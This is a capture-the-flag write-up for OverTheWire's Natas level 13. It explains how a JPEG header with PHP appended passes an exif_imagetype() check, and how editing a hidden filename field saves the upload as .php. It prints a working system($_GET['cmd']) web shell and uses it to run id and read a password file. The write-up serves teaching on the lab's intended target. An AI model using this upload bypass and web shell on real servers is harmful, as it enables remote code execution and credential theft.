









# Natas — Level 13 → 14

**Category:** OverTheWire / Natas  
**Difficulty:** Medium  
**Date:** 2026-08-23  
**Level page:** [natas13.html](https://overthewire.org/wargames/natas/natas13.html)

## Goal

Same upload form as level 12, now with an extra warning:

    For security reasons, we now only accept image files!
    Choose a JPEG to upload (max 1KB)

## Solution

The old trick of just renaming a `.php` file wasn't going to be enough this time, so first built an actual 1x1 JPEG with Python/PIL:

    $ python3 - <<'PY'
    from PIL import Image
    Image.new("RGB", (1, 1), "white").save("tiny.jpg", "JPEG")
    PY
    $ file tiny.jpg
    tiny.jpg: JPEG image data, JFIF standard 1.01, ...

Then turned it into a polyglot by appending a PHP one-liner after the valid JPEG bytes:

    $ cp tiny.jpg shell.php
    $ echo '<?php system($_GET["cmd"]); ?>' >> shell.php
    $ file shell.php
    shell.php: JPEG image data, JFIF standard 1.01, ...

Since the real JPEG header is still first, `file` (and anything that only checks magic bytes) still reports it as a JPEG — the appended PHP is just trailing bytes as far as the image format is concerned, but PHP will still execute the `<?php ... ?>` block wherever it appears in the file once it's served as `.php`.

![Terminal building the shell.php JPEG+PHP polyglot with a system($_GET["cmd"]) payload](images/natas-13-14-shellphp.png)

Inspected the page's DOM and found the same hidden `filename` field from level 12, still driving the saved extension:

    <input type="hidden" name="filename" value="2lcxnwlj11.jpg" />

Set it directly from the console instead of intercepting the request this time:

    document.querySelector('input[name="filename"]').value = 'shell.php';

Selected the polyglot file in the upload form:

The source confirmed there was a new server-side check compared to level 12 — a real image-format check, not just a filesize check:

    } else if (!exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } ...

`exif_imagetype()` only reads the file's magic bytes to determine its type, so the polyglot — real JPEG header, PHP code appended after — sails right through it.

Uploaded it, and this time it went through:

    The file upload/plkotyqey8.php has been uploaded

Since the payload was a generic command shell rather than a hardcoded read, tested it first with `?cmd=id`:

    natas13.natas.labs.overthewire.org/upload/plkotyqey8.php?cmd=id

    uid=30013(natas13) gid=30013(natas13) groups=30013(natas13),50001(phpupload)

Then read the next password directly:

    natas13.natas.labs.overthewire.org/upload/plkotyqey8.php?cmd=cat%20/etc/natas_webpass/natas14

## Result

    Password for natas14: [REDACTED]

## Key Takeaway

`exif_imagetype()` (and similar "is this really an image" checks) only look at the file's leading magic bytes — they say nothing about what else is in the file. A polyglot that's a valid image up front and PHP after it passes that check cleanly, and once it's saved with a `.php` extension (via the same hidden-`filename`-field trick as level 12), the server happily executes the trailing code. Writing the payload as a generic `system($_GET['cmd'])` shell instead of a single hardcoded read made it possible to confirm execution first, then pull exactly what was needed.
